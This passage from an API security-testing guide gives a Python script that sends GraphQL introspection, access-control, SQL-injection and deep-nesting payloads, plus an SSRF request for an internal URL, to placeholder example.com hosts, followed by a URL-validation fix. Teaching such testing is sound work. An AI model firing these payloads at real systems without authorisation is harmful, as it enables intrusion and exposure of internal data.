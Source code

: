 ### **6. Automate Testing with Python Requests**

Script automated tests for multiple vulnerabilities.

**Steps**:
1. Write a Python script for GraphQL/REST testing.
2. Run the script and analyze results.
3. Save output.

**Python Code**:
```python
import requests
import json

url = 'http://example.com/graphql'
headers = {'Authorization': 'Bearer abc123', 'Content-Type': 'application/json'}
payloads = [
    {'query': '{__schema {types {name fields {name}}}}'},  # Introspection
    {'query': 'query { user(id: 999) { email } }'},       # Access control
    {'query': 'query { users(name: "admin\' OR 1=1 --") { id } }'},  # Injection
    {'query': 'query { users { posts { comments { author { posts { id } } } } } }'}  # Deep query
]

for payload in payloads:
    response = requests.post(url, headers=headers, json=payload)
    print(f"Payload: {payload['query']}")
    print(f"Status: {response.status_code}")
    print(f"Response: {response.text[:100]}\n")

# Test REST SSRF
rest_url = 'http://example.com/api/fetch'
rest_payload = {'url': 'http://internal.example.com/secret'}
response = requests.post(rest_url, json=rest_payload, headers=headers)
print(f"REST SSRF Status: {response.status_code}")
print(f"REST SSRF Response: {response.text[:100]}")
```

**Python Commands**:
- **Command 1**: Run GraphQL tests:
  ```bash
  python3 test_api.py
  ```
- **Command 2**: Test REST SSRF separately:
  ```bash
  python3 -c "import requests; url='http://example.com/api/fetch'; payload={'url': 'http://internal.example.com/secret'}; headers={'Authorization': 'Bearer abc123'}; r=requests.post(url, json=payload, headers=headers); print(r.status_code, r.text[:100])"
  ```

**Remediation**:
- Validate URLs:
  ```javascript
  const isValidUrl = (url) => /^https?:\/\/example\.com/.test(url);
  if (!isValidUrl(req.body.url)) res.status(400).send('Invalid URL');
  ```
